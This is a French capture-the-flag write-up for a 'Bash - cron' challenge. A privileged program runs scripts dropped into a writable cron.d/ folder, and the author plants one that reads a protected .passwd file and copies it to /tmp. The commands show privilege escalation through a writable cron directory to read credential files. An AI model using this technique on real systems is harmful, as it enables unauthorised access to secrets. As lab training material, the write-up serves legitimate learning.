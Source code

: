
# Bash - cron
## 20 Points
### Crontab
## Énoncé
Paramètres de connexion au challenge

## Solution

Pour ce challenge, le but est de jouer avec le dossier cron.d/ présent au root du challenge. On a un fichier exécutable **ch4** qui va regarder les fichiers à l'intérieur du dossier cron.d/, si le fichier est exécutable, l'exécuter, puis rm tout les fichiers de cron.d/.

Notre objectif va donc être de voir si on peut créer un fichier dans cron.d/ et y injecter cat .passwd, pour cela on va faire:
```bash
echo "cat /challenge/app-script/ch4/.passwd" > cron.d/test && chmod 777 cron.d/test
```

lorsque l'on cat le fichier, on voit qu'il a bien été créer:

```bash
app-script-ch4@challenge02:~$ cat cron.d/test
cat /challenge/app-script/ch4/.passwd
```

Le fichier est bien créer, on va donc lancer **ch4** pour que cela exécute le fichier.

On attend que le fichier s'éxecute, mais on se rend compte que rien ne se passe, même en faisant un cat du fichier, on se rend compte que le fichier a été supprimé. Il faut donc rediriger la sortie du cat vers un fichier. Pour cela on va faire:
```bash
echo "cat /challenge/app-script/ch4/.passwd > /tmp/cracked" > cron.d/test && chmod 777 cron.d/test
```

En suite on lance **ch4**, on attend de voir quand notre fichier test sera supprimé, puis on va cat le fichier de redirection pour voir si cela à bien marcher:
```bash
app-script-ch4@challenge02:~$ cat cron.d/test
cat /challenge/app-script/ch4/.passwd > /tmp/tib
app-script-ch4@challenge02:~$ cat cron.d/test
cat: cron.d/test: No such file or directory
app-script-ch4@challenge02:~$ cat /tmp/tib
[censorship]
```
and voilà !
